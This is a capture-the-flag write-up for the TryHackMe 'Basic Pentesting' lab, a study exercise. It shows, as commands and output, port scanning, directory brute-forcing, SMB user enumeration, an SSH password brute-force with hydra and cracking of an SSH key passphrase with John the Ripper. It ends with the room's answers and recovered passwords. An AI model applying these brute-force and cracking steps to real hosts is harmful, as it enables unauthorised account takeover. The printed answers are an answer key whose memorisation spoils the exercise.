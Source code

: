 
## THM  Basic Pentesting 
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting
[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)
**The First Task :**

 - **Deploy the machine and connect to our network**

 **Second Task :**  

 - **Scan The Machine Service**

 

 - open nmap

 $ nmap -sC -sV -oN Result.txt 10.10.26.87

 ```bash
Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
 ```

 - ports  : 22  -  139 - 445
 - Now we need to take a look on the source code in main page
   10.10.26.87
	
 - sorce code : ![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614046984/source_kimyp5.png)
 - Now we will use [gobuster](https://github.com/OJ/gobuster) to search 
   for directories with brute-force
   

       gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.26.87
	[+] Threads:        40
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/06/16 08:40:01 Starting gobuster
	===============================================================
	/development (Status: 301)
	```
	Now we go to [http://10.10.26.87/development/](http://10.10.26.87/development/)![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614047853/dev_bz7ebo.png)
	
	dev.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048283/1_e5ukco.png)
	J.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048378/j_xvyhf4.png)
	

## What is the username?

Now we will get user 
Try hack me give us a hint to get the user 
We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

    enum4linux 10.10.26.87

![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614050311/Screenshot_2021-02-23_051756_ldpe6n.png)
after waiting for 5 minutes we get two user names

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

```
users pop up, **jan** a.k.a. J and **kay** a.k.a. K (دماغ شغالة مش بتنام)

## What is the password ?

we will brute-force password by hydra

    └─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
```bash
login: jan & password: armando
```

## What service do you use to access the server(answer in abbreviation in all caps)?
**answer : ssh**

## What is the name of the other user you found(all lower case)?
**answer : kay**
Unfortunately when we try to ssh using the key file we see the key requires a password.

```
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

```

But luckily we can cat out this file and crack the key with  [JohnTheRipper](https://github.com/gwagstaff/CTF-Write-Ups/blob/master/TryHackMe/Basic_Webapp/9)

Using  `ssh2john.py id_rsa > john_id_rsa.hash`  we get a john-crackable file that we can start here.  `john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash`

But it quickly finds the password for the key file

```
[REDACTED]         (kay_id_rsa)

```

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in  `/etc/groups`  or have programs that you can sudo  `Check with sudo -l`  . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

## What is the final password you obtain?

That contains our final flags!

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
